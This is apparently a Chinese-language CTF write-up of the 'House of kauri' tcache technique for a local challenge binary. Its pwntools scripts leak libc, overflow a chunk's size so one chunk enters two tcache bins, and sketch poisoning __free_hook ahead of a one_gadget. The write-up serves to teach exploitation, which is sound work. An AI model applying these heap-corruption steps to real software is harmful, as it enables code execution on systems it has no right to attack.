


# House of kauri-tcache

这个主要还是修改同一个堆块的size大小来是的这个堆块放到不同大小的tcache中是的我们可以修改和构造

当我们把tcachebin中的其中一个重新申请出来时就是伪造一个fd指针来指向free_hook

因此我们的第一步就是使用tcache对free一个堆块的检查不及时来获得同一个堆块放到不同大小的tcache中

```python
from orca.debug import eventDebugLevel
from pwn import *


elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
p.recv()
libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))
add_chunk(10,0x18)

# gdb.attach
add_chunk(0,0x10)
add_chunk(1,0x28)

delete_chunk(1)
edit_chunk(0,b'a'*0x18+p64(0x20))#通过溢出使得chunk2中的大小修改为0x20再次free使得这个堆块进行不同的tcache中
delete_chunk(1)
```



从这里可以知道我们的堆块进入了我们伪造的一个tcache中

由于我们的chunk1可以重新申请回来因此我还可以重新对tcache进行一个修改

```python
from orca.debug import eventDebugLevel
from pwn import *


elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
p.recv()
libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))
add_chunk(10,0x18)

# gdb.attach
add_chunk(0,0x10)
add_chunk(1,0x28)

delete_chunk(1)
edit_chunk(0,b'a'*0x18+p64(0x20))
delete_chunk(1)

#
# add_chunk(1,0x28)
# edit_chunk(1,p64(libc.sym['__free_hook']))
#
# add_chunk(0,0x18)
# add_chunk(0,0x18)

gdb.attach(p)
p.interactive()
```

从后面的代码可以知道通过两次add可以把free_hook给申请出来



同时使用一个one—gadget